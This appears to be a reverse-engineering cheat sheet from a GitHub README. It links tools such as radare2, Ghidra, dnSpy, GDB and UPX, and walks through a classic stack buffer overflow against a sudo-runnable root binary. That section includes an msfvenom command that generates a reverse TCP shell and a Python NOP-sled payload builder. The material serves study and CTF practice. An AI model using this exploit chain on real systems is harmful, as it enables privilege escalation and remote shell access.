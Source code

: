 # Reverse Engineering
Everything that you need for RE

# Radare2 (R2)
Manipulate binaries easily    
You can use R2 to overwrite parts of the assembly code so one part doesn't get called or gets redirected.

## Help
- [https://github.com/radareorg/radare2/blob/master/doc/intro.md](https://github.com/radareorg/radare2/blob/master/doc/intro.md)
- [https://man.archlinux.org/man/radare2.1.en](https://man.archlinux.org/man/radare2.1.en)


# Ghidra
Open-source reverse engineering software developed by NSA

## Help
- [https://github.com/NationalSecurityAgency/ghidra](https://github.com/NationalSecurityAgency/ghidra)
- [https://ghidra-sre.org/CheatSheet.html](https://ghidra-sre.org/CheatSheet.html)



# dnSpy
Used for disassembling .NET code

## Github
[https://github.com/dnSpy/dnSpy](https://github.com/dnSpy/dnSpy)



# GDB
GNU Debugger helps with debugging.    
When looking through a binary one might want to perfrom a buffer overflow attack, for which GDB is perfect.

## peda
Python Exploit Development Assistance for GDB

### Links
- [https://github.com/longld/peda](https://github.com/longld/peda)

## Basic buffer overflow
**This could be used if a binary is owned by root, but current user can run it with sudo**    
1. Start gdb with your desired binary
    ```bash
    $ gdb <bin>
    ```
2. Set breakpoint (usually main)
    ```
    (gdb) break <function / offset>
    ```
3. Generate a payload    
    *If the payload is not long / short enough you can always change the size*
    ```bash
    $ python -c 'print("A"*100)'
    ```
4. Run the binary in gdb and enter your payload
    ```
    (gdb) r
    
    Enter string: AAAAAAA...
    ```
    *If the program breaks, it's vulnerable to buffer overflow*
5. Finding the right size      
    Here what I like to do is to, reduce the length of the payload by half and if it breaks again repeat the steps.    
    If the program doesn't break, you found a shorter length than the input. Here one can go by increments of 1s or 5s     
    as they like and when the program breaks on a specific length they found the desired length.    
    You can see if the payload is loaded into the EIP register upon running `info registers` in gdb.
    1. If the payload is one less than the right size, the register will have one random HEX char at the end
    ```
    (gdb) info registers
    [snip]
    eip     <0x616162> 
    [snip]
    ```
    In the above code `62` is the random char. So, however long was the payload above, we need to add one more character to it.     
    For simplicity's sake let's say that the correct size was `512`.

6. Making the actual payload
    1. Finding the EIP address    
        Because the EIP has been overwritten, we don't know the return value of main.     
        So, now input the same payload into the program but take away the last four characters `AAAB` or `616162`.    
        After doing that one will see the return address of the EIP after running `info reg eip` in gdb.
    2. Make a shell code
        ```bash
        msfvenom --payload linux/x86/shell/reverse_tcp LHOST=<ip> LPORT=<port> --format py --bad-chars '\x00\x09\x20\x0a\xff' 
        ``` 
        The command above will give you a shell code to spawn a reverse tcp shell.    
        I didn't run the command so, I am going to assume its length so, let's make it `150` bytes long.      
        **OR**    
        Get a shellcode from here: [https://shell-storm.org/shellcode/index.html](https://shell-storm.org/shellcode/index.html) 
    3. Assemble the payload in Python     
        **Keep in mind that most systems are storing data in little-endian**    
        *This means that all addresses and bytes have to be reversed*
        ```python
        #!/usr/bin/python3

        # Sizes
        BUFFER      = 512
        SHELLCODE_L = 150
        RET_L       = 4
        NOP_L       = BUFFER - SHELLCODE_L - RET_L

        # Bytes
        SHELLCODE = b"YOUR SHELLCODE HERE"   # Reverse if little endian
        RET_ADDY  = b"YOUR RETURN ADDRESS"   # Reverse if little endian
        NOP_SLED  = b"\x90" * NOP_L

        print(NOP_SLED + SHELLCODE + RET_ADDY)
        ```
7. Running the program with the payload
    ```
    (gdb) r

    Enter string: <payload-here>
    ```

Hopefully, this should spawn the attacker a reverse shell.

### References
- **Best help**    [**https://samsclass.info/127/proj/p3-lbuf1.htm**](https://samsclass.info/127/proj/p3-lbuf1.htm)
- [https://www.cyberpunk.rs/buffer-overflow-linux-gdb](https://www.cyberpunk.rs/buffer-overflow-linux-gdb)
- [https://shell-storm.org/shellcode/index.html](https://shell-storm.org/shellcode/index.html)


# UPX
If a binary is packed with `upx` use this to unpack it:
```bash
upx -d <binary>
```


# PyInstaller packed binaries
Python files can be packed and unpacked to and from a binary.    
Use the links below to unpack said binaries.    

After unpacking the binary, use [uncompyle6](https://pypi.org/project/uncompyle6/) to decompile `.pyc` files gotten from the unpacking process.

## The extractor
[https://github.com/extremecoders-re/pyinstxtractor](https://github.com/extremecoders-re/pyinstxtractor)

### Help
[https://www.fortinet.com/blog/threat-research/unpacking-python-executables-windows-linux](https://www.fortinet.com/blog/threat-research/unpacking-python-executables-windows-linux)